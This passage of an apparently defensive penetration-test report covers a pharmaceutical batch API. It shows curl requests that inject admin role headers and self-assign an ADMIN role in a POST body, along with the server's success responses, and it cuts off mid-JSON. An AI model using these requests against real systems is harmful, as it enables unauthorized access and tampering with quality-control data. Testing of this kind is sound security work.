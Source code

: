 #### Test Case: Role Injection via HTTP Headers
```bash
# Command Executed:
curl -s -H "Role: admin" -H "User-Role: admin" -H "X-User-Role: admin" "http://localhost:5000/api/batches"

# Expected Result: Headers ignored or proper role validation
# Actual Result: 200 OK - Full data access regardless of headers
```

**Finding**: Role headers have no effect on access control
- **Status**: ✅ **BYPASS CONFIRMED**
- **Role Headers**: Completely ignored by server
- **Access Control**: No role-based restrictions implemented
- **Data Access**: Full pharmaceutical database access granted

---

## PRIVILEGE ESCALATION TEST RESULTS

### Test 5: Quality Test Creation with Admin Role

#### Test Case: Creating Quality Tests with Fake Admin Credentials
```bash
# Command Executed:
curl -s -X POST "http://localhost:5000/api/quality-tests" \
  -H "Content-Type: application/json" \
  -d '{
    "batchId":"TEST123",
    "testType":"SECURITY_BYPASS",
    "testResult":"UNAUTHORIZED",
    "testDate":"2025-01-21",
    "testerId":"unauthorized_user",
    "testerRole":"ADMIN"
  }'

# Expected Result: 401/403 - Unauthorized to create admin-level tests
# Actual Result: 200 OK - Quality test created successfully
```

**🔴 CRITICAL FINDING: PRIVILEGE ESCALATION SUCCESS**
- **Status**: ✅ **SUCCESSFUL ESCALATION**
- **Admin Role**: Self-assigned through API request
- **Quality Test Created**: ID 10 with admin-level privileges
- **Database Contamination**: Unauthorized test data persisted

#### Successful Attack Response:
```json
{
  "id": 10,
  "batchId": "TEST123",
  "testType": "SECURITY_BYPASS",
  "testResult": "UNAUTHORIZED",
  "testDate": "2025-01-21",
  "testerId": "unauthorized_user",
  "testerRole": "ADMIN",
  "approvalStatus": "PENDING",
  "approvedBy": null,
  "approvedByRole": null,
  "approvalDate": null,
  "rejectionReason": null,
  "testNotes": null,
  "testValues": null,
```